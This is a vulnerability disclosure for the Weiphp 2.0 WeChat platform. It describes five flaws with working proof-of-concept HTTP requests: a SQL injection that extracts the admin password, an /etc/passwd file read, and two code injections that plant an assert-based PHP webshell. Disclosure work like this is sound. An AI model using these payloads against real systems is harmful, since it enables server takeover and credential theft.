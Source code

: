 ###WEIPHP Multiple Vulnerability

####General description：

Weiphp is an open source, efficient and concise WeChat development platform.

**[1]Weiphp 2.0 YouaskService plug-in has a SQL injection vulnerability. Remote unauthorized attackers can exploit vulnerabilities to obtain database sensitive information.**

**[2]Weiphp 2.0 has an arbitrary file read vulnerability. Remote unauthorized attackers can use this vulnerability to read arbitrary files in the system.**

**[3]Weiphp 2.0 has a code execution vulnerability.Remote unauthorized attackers can use this vulnerability to gain control of the server.**

**[4]Weiphp 2.0 has a code execution vulnerability.Remote background admin privilege user can use this vulnerability to gain control of the server.**

**[5]Weiphp 2.0 has web site physical path leakage vulnerability.**

_ _ _

**Environment: **
apache/php 7.0.12/weiphp 2.0.1202


_ _ _

**[1]**

YouaskService is the default plug-in service of the system.

In the ajaxMain function of the \Addons\YouaskService\Controller\IndexController.class.php file:

![1.png](./img/1.png)

Line 138 gets the time variable submitted by post
Line 144 splices the time variable into the SQL variable
Line 152 passes SQL variables into where variables, and line 153 queries the database
The injection is caused by the use of splicing, and line 154 displays the queried data.

Post requests the following data:
```
POST /index.php?s=addon/YouaskService/index/ajaxMain HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 161
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1/index.php?s=/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

time=1) and 1=2 union select 1,2,3,(select username from wp_ucenter_member where id=1),(select password from wp_ucenter_member where id=1),6,7,8,9,10#&opened=aaa
```

![2.png](./img/2.png)

Obtained the admin's password through the SQL injection vulnerability.

**[2]**

In the showExternalPic function of \Addons\YouaskService\Controller\IndexController.class.php:

![3.png](./img/3.png)

Line 238 gets the data to be requested through the url variable
Line 248 requests data via php's curl protocol

request ```view-source:http://127.0.0.1/index.php?s=/addon/YouaskService/index/showExternalPic/wecha_id/1/token/2/&url=file:///etc/passwd```

Through the vulnerability we read the contents of /etc/passwd:

![5.png](./img/5.png)

**[3]**

In the param function of \Addons\Diy\Controller\DiyController.class.php:

![6.png](./img/6.png)

Line 106 will cache the contents into the file via the S function of thinkphp.
When submitting the page_id parameter value is 1
The file name is md5(diy_1),/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php

![7.png](./img/7.png)

And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Post requests the following data:
```
POST /index.php?s=/addon/Diy/Diy/param HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1/
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8005/index.php?s=/Home/User/register.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

page_id=1&preview=0&widget_id=%0a%0d@assert($_POST['fucktom']);/*
```

![8.png](./img/8.png)

The webshell is:```/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php```.

**[4]**

In the save function of \Application\Admin\Controller\ConfigController.class.php:

![9.png](./img/9.png)

Line 126 will cache the contents into the file via the S function of thinkphp.
The file name is md5('DB_CONFIG_DATA'),/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php

And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Log in to the background with admin privileges
Enter the following and submit:
```
Home/User/*
assert($_POST['fucktom']);/*
home/weixin/*
admin/File/*
home/File/*
home/Forum/*
```

![10.png](./img/10.png)

The webshell is:```/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php```.

**[5]**

Request ```/index.php?s=/home/test/jiamiFile``` to generate test2.php in the root directory
Visit test2.php:

![4.png](./img/4.png)
